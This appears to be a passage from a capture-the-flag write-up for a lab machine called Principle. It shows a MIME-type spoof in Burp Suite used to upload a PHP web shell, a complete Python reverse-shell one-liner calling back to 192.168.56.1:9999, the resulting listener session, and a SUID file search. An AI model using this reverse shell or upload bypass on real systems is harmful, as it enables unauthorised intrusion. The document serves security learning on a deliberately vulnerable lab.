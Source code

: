Upload? That must be an attack vector. Let's visit that page, shall we?

### Foothold

![](https://cybersec.deadandbeef.com/images/Principle/uploadphp.png)

Since this server executes php files, let's try to upload one!

![](https://cybersec.deadandbeef.com/images/Principle/uploadphpdenied.png)

Well, this doesn't work. Now, let's try to make the server think it's an image by changing the MIME type to one the server accepts using Burp Suite.

![](https://cybersec.deadandbeef.com/images/Principle/burp.png)

Bingo! The server is fooled and even gives us the path to the file itself: `archivos/shell.php`. But can we actually execute the php file?

![](https://cybersec.deadandbeef.com/images/Principle/commandexec.png)

Hype. We can execute commands on the server, which means we can get a shell on the server too. We'll employ the single-line Python command in order to obtain the reverse shell: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.56.1",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`

Mind the IP and port again. When we URL encode this payload and execute it, with a listener active, we do indeed get that shell.
```
thehated@TRYHARDER:/dev/shm$ nc -lnvp 9999  
Ncat: Version 7.80 ( https://nmap.org/ncat )  
Ncat: Listening on :::9999  
Ncat: Listening on 0.0.0.0:9999  
Ncat: Connection from 192.168.56.111.  
Ncat: Connection from 192.168.56.111:54606.  
www-data@principle:~/hellfire.t4l0s.hmv/archivos$
```

### User

One of the first checks I run on any system is for SUID files, as this allows us to elevate to other users (or perhaps even the root one).
```
www-data@principle:~/hellfire.t4l0s.hmv/archivos$ find / -perm -4000 2>/dev/null  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
/usr/bin/chfn  
/usr/bin/gpasswd  
/usr/bin/mount  
/usr/bin/passwd  
/usr/bin/sudo  
/usr/bin/find  
/usr/bin/su  
/usr/bin/chsh  
/usr/bin/umount  
/usr/bin/newgrp
```
